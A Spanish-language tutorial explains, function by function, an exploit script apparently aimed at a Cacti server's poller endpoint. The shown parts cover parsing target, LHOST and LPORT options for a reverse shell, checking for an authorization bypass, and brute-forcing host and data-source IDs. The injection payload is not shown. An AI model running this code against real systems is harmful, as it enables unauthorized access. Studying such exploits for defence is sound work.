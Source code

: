 Este código define una función llamada get_arguments() que utiliza la biblioteca optparse para analizar los argumentos de línea de comandos que se le pasan.

Los argumentos definidos por la función son:

```bash
-u o --url: la URL del objetivo que se va a atacar.
--LHOST: la dirección IP del host desde donde se lanzará el ataque.
--LPORT: el número del puerto de escucha que se usará para la conexión inversa en caso de éxito del ataque.
```

Si alguno de estos argumentos no se proporciona correctamente o directamente no se proporciona, la función nos mostrará un mensaje de error para que lo corrijamos.

```python
def get_arguments():
    parser= optparse.OptionParser()
    parser.add_option('-u', '--url', dest='url_target', help='The url target')
    parser.add_option('', '--LHOST', dest='lhost', help='Your ip')
    parser.add_option('', '--LPORT', dest='lport', help='The listening port')
    (options, arguments) = parser.parse_args()
    if not options.url_target:
        parser.error('[*] Pls indicate the target URL, example: -u http://10.10.10.10')
    if not options.lhost:
        parser.error('[*] Pls indicate your ip, example: --LHOST=10.10.10.10')
    if not options.lport:
        parser.error('[*] Pls indicate the listening port for the reverse shell, example: --LPORT=443')
    return options
```

> Segunda parte

En esta segunda parte se define una función llamada checkVuln() que usa la biblioteca requests para enviar una solicitud GET a una URL determinada.

La función verifica si la respuesta de la solicitud no es "FATAL: You are not authorized to use this service" y si el código de estado HTTP de la respuesta no es 403.
Si cualquiera de estas condiciones es verdadera, la función devuelve True, lo que indica que la URL es vulnerable. De lo contrario, devuelve False, lo que indica que la URL no es vulnerable.

En resumen, la función checkVuln() se utiliza para verificar si una URL determinada es vulnerable a este ataque.

```python
def checkVuln():
    r = requests.get(Vuln_url, headers=headers)
    return (r.text != "FATAL: You are not authorized to use this service" and r.status_code != 403)
```

> Tercera parte 

La función bruteForcing() se utiliza para realizar un ataque de fuerza bruta en la URL que le pasaremos, utilizando dos bucles anidados para iterar a través de todas las combinaciones posibles de valores de n y n2, y verificando la respuesta de cada solicitud para encontrar una combinación exitosa.

```python
def bruteForcing():
    for n in range(1,5):
        for n2 in range(1,10):
            id_vulnUrl = f"{Vuln_url}?action=polldata&poller_id=1&host_id={n}&local_data_ids[]={n2}"
            r = requests.get(id_vulnUrl, headers=headers)
            if r.text != "[]":
                RDname = r.json()[0]["rrd_name"]
                if RDname == "polling_time" or RDname == "uptime":
                    print("Bruteforce Success!!")
                    return True, n, n2
    return False, 1, 1
```
